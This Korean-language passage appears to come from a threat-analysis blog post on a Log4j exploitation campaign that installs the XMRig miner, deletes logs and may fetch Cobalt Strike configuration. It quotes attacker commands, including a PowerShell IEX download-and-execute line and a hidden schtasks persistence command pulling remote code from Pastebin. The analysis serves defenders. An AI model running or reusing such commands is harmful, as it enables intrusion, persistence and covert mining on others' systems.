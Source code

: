 

<p>최소한 두 가지 경우에서 사용자 에이전트 Mozilla/5.0(호환 가능, MSIE 10.0, Windows NT 6.2, Win64, x64, Trident/6.0, MAARJS)이 있는 HTTP 연결에서 mad_micky.bat 스크립트가 검색되었습니다.&nbsp;이 사용자 에이전트가 이러한 네트워크에서 처음이자 유일한 시간이었습니다.&nbsp;이 사용자 에이전트는 공장에서 새로 설치된 일부 ASUS 장치에서 합법적으로 사용되는 것으로 보입니다.&nbsp;그러나 이 활동 중에만 보이는 새로운 사용자 에이전트이므로 의심스럽습니다.</p>



<p>악용에 성공한 후 서버는 포트 1389에서 콜백을 수행하여 스크립트 파일을 검색합니다.&nbsp;이 예에서 /xms.ps1은 'mad_micky.bat'를 호출하기 위해 호스트의 실행 정책을 우회하는 base-64로 인코딩된 PowerShell 스크립트입니다.</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a548a73d901f998b427c_1-1.jpeg" alt="위험한 Log4j 취약점을 악용하는 암호화폐 채굴 코드의 익스플로잇 CVE-2021-44228"/></figure>



<p><em>그림 1: PowerShell 스크립트 xms.ps1에 대한 추가 정보</em></p>



<p>스냅샷은 영향을 받는 서버에 대한 이벤트 로그를 자세히 설명하고 mad_micky.bat 파일 다운로드로 이어진 성공적인 Log4j RCE를 나타냅니다.</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a5485d3ddb97cd7d959a_1-2.jpeg" alt="위험한 Log4j 취약점을 악용하는 암호화폐 채굴 코드의 익스플로잇 CVE-2021-44228"/></figure>



<p><em>그림 2: mad_micky.bat 파일을 강조 표시하는 로그 데이터</em></p>



<p>실행 파일 및 스크립트를 검색하기 위해 추가 연결이 시작되었습니다.&nbsp;스크립트에는 한국과 우크라이나에 위치한 두 개의 IP 주소가 포함되어 있습니다.&nbsp;광부를 활성화하는 xm.exe 실행 파일을 다운로드하기 위해 우크라이나 IP에 연결되었습니다.&nbsp;광부인 XMRig Miner(이 경우)는 여러 공개 위치에서 다운로드할 수 있는 오픈 소스 크로스 플랫폼 마이닝 도구입니다.&nbsp;다음으로 관찰된 exe 다운로드는 'wxm.exe'(f0cf1d3d9ed23166ff6c1f3deece19b4)에 대한 것이었습니다.</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a548633c395a4ad861e7_1-3.png" alt="위험한 Log4j 취약점을 악용하는 암호화폐 채굴 코드의 익스플로잇 CVE-2021-44228"/></figure>



<p><em>그림 3: XMRig 실행 파일에 대한 추가 정보</em></p>



<p>한국 IP로의 접속에는 다른 스크립트(/2.ps1)와 실행 파일(LogBack.exe)에 대한 요청이 수반되었습니다.&nbsp;이 스크립트는 SCM 이벤트 로그 필터 또는 PowerShell 이벤트 로그 소비자를 포함하여 로깅과 관련된 실행 중인 작업을 삭제합니다.&nbsp;스크립트는 또한 Cobalt Strike 비컨 구성 파일일 가능성이 있는 Pastebin에서 파일을 요청합니다.&nbsp;로그 삭제는 예약된 작업을 통해 수행되었으며 WMI에는 Eventlogger, SCM 이벤트 로그 필터, DSM 이벤트 로그 소비자, PowerShell 이벤트 로그 소비자, Windows 이벤트 소비자, BVTConsumer가 포함되었습니다.</p>



<ul>
<li>구성 파일(더 이상 호스팅되지 않음): IEX(New-Object System.Net.Webclient) DownloadString('hxxps://pastebin.com/raw/g93wWHkR')</li>
</ul>



<p>Pastebin에서 요청한 두 번째 파일은 더 이상 Pastebin에서 호스팅하지 않지만 schtasks 명령의 일부이므로 지속성을 설정하는 데 사용될 수 있습니다.</p>



<ul>
<li>schtasks /create /sc MINUTE /mo 5 /tn "\Microsoft\windows\.NET Framework\.NET Framework NGEN v4.0.30319 32" /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe - WindowStyle 숨김 -NoLogo -NonInteractive -ep 우회 -nop -c 'IEX ((new-object net.webclient).downloadstring(”hxxps://pastebin.com/raw/bcFqDdXx”'))'” /F /ru 시스템</li>
</ul>
